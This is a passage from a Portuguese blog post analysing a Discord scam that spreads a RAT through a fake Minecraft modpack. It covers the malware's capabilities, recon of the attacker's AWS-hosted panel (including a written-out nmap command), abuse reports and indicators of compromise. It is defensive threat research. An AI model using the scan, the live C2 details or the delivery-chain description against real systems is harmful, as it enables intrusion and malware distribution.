| `lilIliilIl` | `JFrame`, `JPanel`, `JTextArea`, `JTextPane` | Uma janela com caixa de texto. Talvez um chat com a vítima ou uma tela falsa |

Fora essas, outras 17 classes usam `Cipher`, `SecretKeyFactory` e `Base64` juntos, o que bate com tráfego e configuração criptografados com AES. E duas classes, `Iiilliiliiil` e `Ililllililil`, estendem `SimpleFileVisitor`, a classe do Java pra percorrer pastas recursivamente: é o pedaço que varre o disco atrás de arquivos.

## Onde está o servidor?

O IP que o golpista mandou é `54.232.140[.]167`. A primeira pergunta era: de quem é essa máquina?

Comecei por consultas passivas, que não encostam no servidor: RDAP da ARIN, DNS reverso, o serviço de IP→ASN da Team Cymru e o `ip-ranges.json` público da AWS. Tudo bate:

- **AS16509**, Amazon;
- região **sa-east-1**, São Paulo;
- DNS reverso `ec2-54-232-140-167.sa-east-1.compute.amazonaws.com`, ou seja, uma instância EC2 alugada.

### nmap

Depois disso, rodei um scan de todas as portas TCP com detecção de serviço e os scripts padrão do nmap:

```bash
nmap -sS -sV -sC -p- -T4 -oN vps-scan.txt 54.232.140.167
```



Das 65.535 portas, só três responderam:

- **3389, RDP.** É uma máquina **Windows**, que o golpista acessa por área de trabalho remota. O certificado do RDP tem o nome `EC2AMAZ-AG3M7PV`, que é o padrão que a AWS dá pras instâncias Windows, e foi gerado em **27 de outubro**. O Windows gera esse certificado quando a máquina sobe pela primeira vez, então tudo indica que o servidor existe desde então.
- **25565, o "servidor de Minecraft".** O nmap marcou como `tcpwrapped`: a porta aceita a conexão, mas não devolve nada que dê pra identificar. É a isca.
- **4000, um app Node.js com Express**, com o título **`NOFACE — Access Portal`**. Isso não tem nada a ver com Minecraft.

### O painel

Abri a porta 4000 no navegador, por VPN, e encontrei o painel web de controle do malware:



É uma tela de login, e cada pedacinho dela conta uma história:

| Na tela | O que isso diz |
| --- | --- |
| **NOFACE**, "Authorized Red Team Infrastructure" | Um produto com nome. E a desculpa de sempre: RAT comercial adora se vender como "ferramenta de red team", pra fingir que é coisa de pentest autorizado |
| **Operator License Key** (`XXXX-XXXX-XXXX`) | Cada "operador" entra com uma chave de licença. Ou seja: existe mais de um cliente |
| **Continue with Telegram 2FA** | O login passa pelo Telegram, que é onde esse tipo de coisa costuma ser vendido e ter suporte |
| "Telemetry & C2 Relay Operational" | Um selinho de status, que nem página de produto SaaS |
| "TLS 1.3 Encrypted • In-Memory Stager v4.2" | Um número de versão, ou seja, um produto em desenvolvimento contínuo. E o "TLS 1.3 Encrypted" num site servido em HTTP puro, com o navegador gritando "Not Secure" logo em cima kkkk |

Não tentei entrar nem mexer em coisa nenhuma, só tirei o print. Mas já diz bastante: a **mesma máquina** hospeda a isca e o painel. O IP que a "isabela" manda pra você entrar no servidor é o mesmo endereço de onde o atacante controla as vítimas.

### Malware as a service (e um golpista qualquer)

Minha hipótese é que quem montou esse golpe **não escreveu nada disso**. O NOFACE parece ser **malware as a service**: alguém desenvolve o RAT, o painel e o gerador de droppers, e vende ou aluga o pacote pronto, com licença por operador. Quem te chama no Discord é só o cliente, um golpista qualquer que comprou o kit e seguiu o passo a passo.

O que me convence disso é o contraste entre as peças. Tem coisa que é claramente trabalho de quem sabe o que está fazendo, e tem coisa que é claramente trabalho de quem não sabe:

| Peça | Parece profissional (o produto) | Parece amador (o golpista) |
| --- | --- | --- |
| **Malware** | RAT com HVNC, keylogger e webcam, com ofuscação pesada: control-flow flattening, `invokedynamic`, strings criptografadas por classe | Pegou um modpack pronto de 22 de outubro e só jogou o dropper dentro de `overrides/mods/` |
| **Dropper** | Gerado junto com o RAT: o `app.jar` é de 8/11 às 07:50, o `mc.class` do mesmo dia às 07:52. E o `fabric.mod.json` é genérico ("Minecraft Mod Pack", "Fabric Team"), nem cita o WholSphere. Cara de um *builder* que cospe os dois de uma vez | Só renomeou o arquivo pra `WholsSphereDungeonV15.jar` |
| **Painel** | Licença por operador, 2FA pelo Telegram e número de versão | Deixou o painel aberto pra internet inteira na porta 4000, em HTTP puro |
| **Infra** | Segundo estágio hospedado no Dropbox, que ninguém bloqueia | Usou o **mesmo IP** pra isca e pro painel, ou seja, entregou o endereço do C2 de bandeja pra cada vítima. E deixou um Windows Server com RDP aberto pra internet |
| **Isca** | — | Perfil de menina no Discord; por ser uma conta antiga provavelmente foi roubada de alguma outra vítma |

Até os detalhes bobos do dropper, tipo o pacote `com.example.mod` e o `unused_padding.bin`, têm cara de template, gerado igualzinho pra todo cliente.

Não dá pra provar só com o que eu tenho, e eu não fui atrás de onde o NOFACE é vendido. Mas o padrão é bem conhecido: o desenvolvedor fica longe, ganhando com as licenças, e quem se expõe é o cliente, que muitas vezes não entende nem o que está rodando. Isso não deixa o golpe menos perigoso: o RAT é o mesmo, seja quem for que aperta o botão.

## Denunciando

Achar o servidor só serve de alguma coisa se alguém puder derrubar ele. Então o passo seguinte foi mandar tudo pra quem tem poder pra isso.

- **AWS**: mandei um e-mail pro `abuse@amazonaws.com` com o IP, as portas, o horário, a análise, os hashes e os prints. A instância é deles, e eles são os únicos que podem desligar ela de fato.
- **abuse.ch**: subi o dropper e o `app.jar` no **MalwareBazaar**, a URL do Dropbox no **URLhaus** e o IP:porta do painel e os hashes no **ThreatFox**. Essas bases alimentam antivírus, firewalls e listas de bloqueio do mundo todo, então é o jeito mais rápido de fazer outros sistemas reconhecerem a ameaça. Como a família não tem nome conhecido, entrou como `unknown_rat`.
- **Dropbox**, pelo link do segundo estágio; **CurseForge**, pelo modpack; e **Discord**, pela conta que fez o contato.

## Indicadores

| IOC | Tipo |
| --- | --- |
| `800da02a3026cc4379c0be0c630a55036ed4e06c19b4d28b08870ace6882332e` | SHA-256, zip do modpack (`wholsphere-curseforge.zip`) |
| `03afdfd14b602ac5df5c7d1ecb367788b5e28e7cb67a95106ab282cba4cc8c25` | SHA-256, dropper (`WholsSphereDungeonV15.jar`) |
| `695572c6736785015142eaa712b3a2679fd51eaa95fcf4b07955e7bb217c5b71` | SHA-256, zip do segundo estágio (`jre.zip`) |
| `5aaeca1091c46165ec1360e8b348fac98fa26de848b16a837cef20500dad10e6` | SHA-256, RAT (`app.jar`) |
| `54.232.140[.]167:4000` | Painel de C2 (`NOFACE — Access Portal`) |
| `54.232.140[.]167:25565` | Servidor de Minecraft isca |
| `EC2AMAZ-AG3M7PV` | Nome da máquina no certificado do RDP |
| Dropbox, arquivo `e95132c212fbe17b.zip` | Download do segundo estágio (link omitido) |
| `%LOCALAPPDATA%\java\app.jar` | Caminho do RAT na vítima |
| `%LOCALAPPDATA%\java\java\bin\javaw.exe` | Java usado pra rodar o RAT |

Se você ou alguém que você conhece importou esse modpack no Windows, a primeira coisa a fazer é olhar se existe a pasta `%LOCALAPPDATA%\java` com um `app.jar` dentro.

## O resultado

Um golpe que começa com "bora jogar um mine?" termina com alguém usando o seu navegador, logado como você, de dentro do seu próprio PC. E o caminho até lá tem só três passos: importar um `.zip`, abrir o jogo uma vez, e pronto. O mod falso roda junto com o Minecraft, baixa um Java próprio do Dropbox e deixa um RAT rodando em segundo plano, que continua lá depois que você fecha o jogo.

Pra mim, a lição principal é sobre os modpacks. A CurseForge passa uma sensação de segurança, e com razão quando você baixa as coisas por ela. Mas um `.zip` importado é só um zip: o app copia o que tiver em `overrides/` sem perguntar nada, e um único `.jar` ali dentro tem o mesmo poder que qualquer programa que você baixa da internet e executa. Se alguém que você não conhece insiste que você *precisa* instalar um modpack específico pra jogar com ele, desconfie.